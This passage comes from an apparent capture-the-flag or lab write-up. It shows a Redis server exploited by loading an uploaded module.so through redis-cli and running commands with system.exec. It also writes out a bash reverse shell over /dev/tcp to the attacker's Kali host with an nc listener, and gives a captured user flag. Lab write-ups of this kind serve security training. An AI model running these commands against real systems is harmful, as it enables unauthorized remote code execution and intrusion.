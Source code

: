 ![](images/2025-08-31_4.png)

**Redis Login**: using the `redis-cli` and load the module. 

```bash
redis-cli -h 192.168.195.93
MODULE LOAD /var/ftp/pub/module.so
system.exec "id"
```
Our upload was success and was able to load the module.so and run the `system.exe "id"` commands. Let's get a reverse shell.
### 3.2 Reverse Shell
Before running the command below we need to start a listener on the kali. `nc -lvnp 6379` 
```bash
system.exec "/bin/bash -i >& /dev/tcp/192.168.45.247/6379 0>&1"
```
![](images/2025-08-31_5.png)

### 3.3 User flag: 
The `local.txt` was found under the user `pablo/home` 

```bash
b121bce5024edff1ba2031af87ff6c12
```